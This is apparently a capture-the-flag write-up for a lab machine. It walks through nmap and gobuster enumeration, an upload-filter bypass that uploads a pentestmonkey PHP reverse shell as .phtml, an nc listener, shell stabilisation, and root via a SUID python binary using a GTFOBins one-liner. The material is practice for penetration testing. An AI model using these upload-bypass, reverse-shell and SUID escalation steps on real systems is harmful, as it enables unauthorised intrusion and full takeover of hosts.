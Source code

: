 
#my ip : X.X.X.X 
machine : 10.10.236.241

SCANNING
========
intial scan :
└─$ nmap -sV -v -Pn 10.10.236.241  -oN nmap/intial

22/tcp   open     ssh                                                                                                         
80/tcp   open     http       Apache httpd 2.4.29 ((Ubuntu)) 

#it seems we only have the webpage to look into but let's run full scan in the background just in case it is helpless

└─$ nmap -sV -v -Pn -p- -sC 10.10.236.241  -oN nmap/all


ENUMRATION
===========

└─$ gobuster dir -u "http://10.10.236.241/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  | tee gobuster.txt

```
/uploads              (Status: 301) [Size: 316] [--> http://10.10.236.241/uploads/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.236.241/panel/]  

```

#found upload page at /panel so let's try upload a shell !

#pentester monkey php reverse shell is a great one :

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

#let's upload it and check if there is filteration techniques on uploading files 

#it doesn't accecpt php files :)

#let's check /uploads maybe it is uploaded and checked at their side !

#it is not :(

#let's try some modification on extenstion

phtml, .php, .php3, .php4, .php5, and .inc

EXPLOITAION
===========
#trying phtml and changing ip in the code 
# it is uploaded ! , and you can find it in the uploads section !
#set a listener 

$nc -lvp 1234 #my port

and execute it at uploads page 
=============================
   NOW WE HAVE A SHELL !
=============================
as www-data 

#to get stable shell 

$ python3 -c "import pty ; pty.spawn('/bin/bash')"

get user flag :

$find / -name user.txt

now we need privilege escalation :
----------------------------------

#sudo -l  #need our passs which we don't know :(

#-rw-r--r-- 1 root root 1603 Aug  4  2020 /etc/passwd

#-rw-r----- 1 root shadow 1157 Aug  4  2020 /etc/shadow

suid
======
SUID, the special permission for the user access level has a single function: 

A file with SUID always executes as the user who owns the file, regardless of the user passing the command. 

check for suid premissions :
-----------------------------
$find / -type f -user root -perm -4000 -exec ls -l {} + 2>/dev/null

weird file
------------
/usr/bin/python

visiting https://gtfobins.github.io/gtfobins/python/#suid


/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'



now we are root !
# find / -name root.txt

and get the final flag  :) 

